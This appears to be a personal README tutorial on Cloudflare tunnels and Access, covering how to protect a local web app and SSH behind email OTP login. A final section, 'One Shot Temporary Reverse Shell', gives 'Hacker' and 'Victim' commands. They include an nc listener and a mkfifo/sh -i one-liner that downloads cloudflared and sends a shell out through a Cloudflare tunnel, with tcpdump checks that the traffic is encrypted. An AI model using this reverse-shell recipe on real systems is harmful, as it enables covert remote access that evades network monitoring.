 # Cloudflared 101

## *REQUIRED* Setup on your Host

```bash
curl -L --output cloudflared.deb https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64.deb
sudo dpkg -i cloudflared.deb
```

## Protect Web Application

https://one.dash.cloudflare.com/YOUR_ID/access/apps/add

- Register domain (I use personally use https://us-east-1.console.aws.amazon.com/route53/domains/home)
- Add "site" to cloudflare, the tld NS records must point to cloudflare requested ns at https://dash.cloudflare.com/
- Serve your app locally: `cd "$(mktemp -d)" && date | tee index.html && python -m http.server -b 127.0.0.1 1337`
- Create a cloudflare app at https://one.dash.cloudflare.com/ > Access > Applications > Add
    - `Self Hosted` app named `srv` 
    - Subdomain is `srv.lalu.tv`
    - Keep `Accept all available identity providers` enabled
- Create a Policy
    - Allow only your auth group, create it at https://one.dash.cloudflare.com/YOUR_ID/access/groups?search=
    - Allow by email list, or valid tld of your corp
- Create a Cloudflared Tunnel `srv` at https://one.dash.cloudflare.com/ > Networks > Tunnels > Add
    - Pick `cloudflared`, name it `srv`
    - Start the tunnel: `sudo cloudflared service install eyJYOUR_TOKEN`
    - You should now see a connector appear, it's your host's link ready to serve content
    - Specify the tunnel's hostname and protocol as `srv.lalu.tv` and `http://127.0.0.1:1337`
- You're DONE!
    - Visit https://srv.lalu.tv/
    - Provide your email & received OTP
    - Profit!
- Once you're done, clean-up stuff
    - https://dash.cloudflare.com/
        - Websites > lalu.tv > DNS > Records > Edit > Delete
        - Zero Trust > Applications > srv > Delete
        - Zero Trust > Network > Tunnels > srv > Delete

## Protect SSH Access + WebUI Bonus

- Register domain (I use personally use https://us-east-1.console.aws.amazon.com/route53/domains/home)
- Add "site" to cloudflare, the tld NS records must point to cloudflare requested ns at https://dash.cloudflare.com/
- Configure your local ssh server (Do it yourself yo!)
- Create a cloudflare app at https://one.dash.cloudflare.com/ > Access > Applications > Add
    - `Self Hosted` app named `ssh` 
    - Subdomain is `ssh.lalu.tv`
    - Keep `Accept all available identity providers` enabled
    - Enable `automatic cloudflared authentication` for convenience
    - *Optional* enable `browser rendering` to access ssh over https in your browser
- Create a Policy
    - Allow only your auth group, create it at https://one.dash.cloudflare.com/YOUR_ID/access/groups?search=
    - Allow by email list, or valid tld of your corp
- Create a Cloudflared Tunnel `ssh` at https://one.dash.cloudflare.com/ > Networks > Tunnels > Add
    - Pick `cloudflared`, name it `ssh`
    - Start the tunnel: `sudo cloudflared service install eyJYOUR_TOKEN`
    - You should now see a connector appear, it's your host's link ready to serve content
    - Specify the tunnel's hostname and protocol as `ssh.lalu.tv` and `ssh://127.0.0.1:22`
- You're DONE!
    - For *WEB SSH* access, visit https://ssh.lalu.tv/
    - For *CLI SSH* access, run `ssh -o "ProxyCommand cloudflared access ssh --hostname %h" lalu@ssh.lalu.tv`
    - Provide your email & received OTP
    - Profit!
- Once you're done, clean-up stuff
    - https://dash.cloudflare.com/
        - Websites > lalu.tv > DNS > Records > Edit > Delete
        - Zero Trust > Applications > ssh > Delete
        - Zero Trust > Network > Tunnels > ssh > Delete

---

## One Shot Temporary Reverse Shell

Doc: https://developers.cloudflare.com/cloudflare-one/applications/non-http/arbitrary-tcp/

```bash
## Hacker
cloudflared tunnel login
cloudflared tunnel --hostname oneshot.lalu.tv --url tcp://127.0.0.1:8000 --name oneshot
rlwrap nc -lnvp 8000

## Victim
docker run --rm -it ubuntu:22.04 bash -il
apt update && apt install -y wget
wget https://github.com/cloudflare/cloudflared/releases/download/2024.2.1/cloudflared-linux-amd64 -O /tmp/cloudflared && chmod a+x /tmp/cloudflared && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|/tmp/cloudflared access tcp --hostname oneshot.lalu.tv >/tmp/f

# Double check your tunnel in encrypted
## On Host
sudo tcpdump -A -i enp5s0 port 443 # Encrypted traffic from/to the outer world
sudo tcpdump -A -i lo port 8000    # Plaintext traffic from/to cloudflared and our loopback
for i in {1..20}; do echo "$i"; date; sleep 1; done # Generate identifiable traffic in the newly spawned reverse shell

# Cleanup once you're done
cloudflared tunnel delete oneshot
# No cli option to remove dns record, visit https://dash.cloudflare.com/ > lalu.tv > DNS > recoreds > Edit > Delete
rm ~/.cloudflared/cert.pem # Remove your local tunnel auth
```

---

## Future ideas

- WAF
- Pages
- Workers
- Analytics & Debugging
